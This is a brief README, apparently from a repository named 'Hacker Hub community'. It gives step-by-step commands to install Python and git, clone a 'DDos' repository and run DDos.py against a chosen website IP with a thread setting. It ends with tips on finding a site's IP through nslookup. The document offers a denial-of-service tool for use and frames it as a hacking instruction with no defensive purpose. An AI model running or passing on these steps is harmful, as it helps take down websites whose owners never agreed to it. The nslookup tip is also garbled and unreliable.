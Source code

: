 # Hacker Hub community

# ` Installation-- `

``` 
apt update && apt upgrade
```
``` 
pkg install python
```
```
pkg install python2
```
```
pkg install python3
```
```
pkg install git
```
```
git clone https://github.com/hacker-hub8/DDos.git
```
```
cd DDos
```
```
ls
```
```
python DDos.py
```

* run like this ----
` ( python DDos.py -s "put website ip" -t 135) `

# #########################
# ` how to get ip of website `
* ` open cmd ` 
* ` type "nslookup -s" `
* ` enter the website to get ip `
# ##########################

